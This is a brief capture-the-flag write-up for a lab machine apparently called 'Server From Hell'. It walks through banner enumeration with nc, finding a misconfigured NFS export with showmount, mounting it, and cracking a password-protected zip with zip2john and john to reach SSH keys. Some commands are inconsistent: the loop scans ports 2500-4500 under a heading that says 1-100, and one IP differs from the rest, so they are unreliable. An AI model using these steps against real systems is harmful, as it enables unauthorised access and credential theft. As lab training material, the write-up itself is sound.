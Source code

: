 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets

## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {2500..4500}
do
    nc 10.10.10.10 -p $port
done
```
### Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```
### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```
### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```
### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```
### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub

```
